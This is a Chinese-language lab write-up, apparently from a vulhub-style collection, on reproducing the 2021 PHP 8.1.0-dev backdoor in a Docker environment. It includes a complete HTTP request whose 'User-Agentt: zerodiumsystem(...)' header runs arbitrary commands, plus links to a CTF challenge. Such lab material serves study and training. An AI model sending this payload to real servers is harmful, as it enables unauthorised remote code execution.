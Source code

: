 # PHP 8.1.0-dev 开发版本后门

> PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

## 1.漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker compose up -d
```

环境启动后，服务运行在 `http://your-ip:8080`。

## 2.漏洞复现

发送如下数据包，可见代码 `var_dump(233*233);`成功执行：

记得User-Agentt最后一定要加 `;` ,否则会报错

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
User-Agentt: zerodiumsystem("ls");
Connection: close
```


[![img](./assets/PHP8.1.0-dev后门远程命令执行漏洞/1.png)](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/1.png)

参考链接：

https://cloud.tencent.com/developer/article/1839234

https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

## 3.相关题目

qsnctf：https://www.qsnctf.com/#/main/driving-range PHP的后门
